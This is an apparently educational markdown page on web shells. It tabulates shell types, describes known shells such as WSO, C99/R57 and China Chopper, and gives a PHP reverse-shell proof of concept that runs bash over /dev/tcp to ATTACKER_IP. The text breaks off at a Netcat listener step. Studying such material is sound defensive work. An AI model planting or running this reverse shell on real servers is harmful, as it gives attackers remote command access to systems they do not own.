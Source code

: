 | Type                 | Description                                     |
| -------------------- | ----------------------------------------------- |
| **Simple Shell**     | 1-liner that executes system commands.          |
| **Advanced Shell**   | Full UI with file browser, database tools, etc. |
| **Obfuscated Shell** | Encoded with base64 or encrypted for stealth.   |
| **Reverse Shell**    | Server connects back to attacker's machine.     |

---

##  Popular Web Shells in the Wild

### 1. **WSO (Web Shell by Orb)**

* Full GUI with features like:

  * File manager
  * Command execution
  * Database browsing
  * Upload/download
* Password-protected interface
* Often obfuscated (harder to detect)

### 2. **C99 / R57**

* Older but still seen
* Includes file access, command execution, mailer tools

### 3. **China Chopper**

* Tiny (4KB), powerful
* Split into client + server
* Hard to detect (stealthy)
* Used by APT groups

---

## 🧪 PoC – Reverse Shell Example (PHP)

### PHP Code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```

### Steps:

1. Run Netcat listener on your machine:
